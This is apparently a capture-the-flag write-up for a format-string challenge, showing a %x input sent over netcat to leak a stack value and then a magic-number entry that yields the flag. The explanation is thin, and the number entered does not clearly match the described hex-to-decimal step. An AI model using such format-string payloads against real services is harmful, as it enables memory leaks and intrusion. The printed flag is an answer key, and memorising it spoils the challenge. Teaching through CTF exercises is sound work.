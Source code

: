 # From C to Shining C (100)
#### pwn - [Virginia TSA Technosphere 2022 CTF](../main.md)

## Challenge description:
> The elves have mistakenly put a [string format vulnerability](https://owasp.org/www-community/attacks/Format_string_attack) that might reveal a flag in this program.
> 
> Download file: forgot to save file :(

## Solution 
We are given a binary and information to connect to a server with netcat.

After marking it as executable with `chmod +x fromctoshiningc`, running the binary asks for a name and a magic number. 

```
$ ./fromctoshiningc
What is your name? 
```

We can leak data from the stack using %x, which is returned to us.

```
$ nc 0.cloud.chals.io 28281
What is your name? 
%x
This is a really important piece of information: 28757b2

Enter the magic number: 
```

Reverse engineering the binary reveals that converting the provided hex address to decimal allows us to access its content. We can try this on the server for the real flag.

```
$ nc 0.cloud.chals.io 28281
What is your name? 
%x
This is a really important piece of information: 28757b2

Enter the magic number: 
42424242
*************
```

<details> 
    <summary>Flag</summary>
flag{cnoevil}
</details>